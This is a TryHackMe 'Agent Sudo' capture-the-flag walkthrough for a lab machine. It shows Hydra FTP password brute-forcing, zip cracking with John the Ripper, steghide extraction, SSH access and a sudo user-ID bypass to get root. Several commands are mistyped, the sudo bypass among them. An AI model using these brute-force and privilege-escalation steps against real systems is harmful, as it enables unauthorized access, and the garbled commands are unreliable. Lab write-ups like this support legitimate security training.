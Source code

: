 ```yaml
---
layout: page
title: Agent Sudo WalkThrough
permalink: /agentSudo
tags: TryHackMe

---
```

# Agent Sudo 
# ![front](/images/agentsudo/front.png)
[https://tryhackme.com/room/agentsudoctf](https://tryhackme.com/room/agentsudoctf)

## Open Ports:
  - 21: ftp
  - 22: ssh
  - 80: HTTP
  
## Port 80:
1. **Index Page**
![1](/images/agentsudo/1.png)
  - we can brute force different Agents
  ```
    >Curl "http://ip" -H "User-Agent: A" -L
    >Curl "http://ip" -H "User-Agent: B" -L
    >Curl "http://ip" -H "User-Agent: C" -L
  ```
![2](/images/agentsudo/2.png)

## Port 21:
1. Brute force ftp using **Hydra**  to find the _password_
  ```
  hydra -l cxxxx -P /rockyou.txt ftp://ip
  ```
![3](/images/agentsudo/3.png)
2. After logging we will find 3 files _(1 txt, 2 imgs)_
  - binwalk the image we find a zip file inside the image
  - As the zip file is password protected we can use **johnTheRipper** to crack it.
    ```
    John2zip 8072.zip > hash.txt
    John hash.txt --wordlist=/rockyou.tx
    ```
![4](/images/agentsudo/4.png)
 3. Now we find a text file for Agent R
  - It has the passwd in base64
    ```
    echo " " |base64-d (Area51)
    ```
 4. Extracting cute-alien.jpeg file using the password found in **To_AgentR.txt**
    ```
    steghide extract -sf cute-alien.jpeg
    ```
![5](/images/agentsudo/5.png)

   
## Gaining Access:
 **We Found username and password in _message.txt_**
 1. Logging in via ssh
 
### USER Flag:
![user](/images/agentsudo/user.png)
2.Download the image 
  - scp james@ip:/home/james/image.jpeg .
  - Now search in the web (_use google image search_)
 


## Privilege Escalation:
 1. sudo -l
   - [All,!root] /bin/bash
   **To bypass this**
    ```
    sudo #u-1 /bin/bash
    ```
### Root Flag:
![root](/images/agentsudo/root.png)
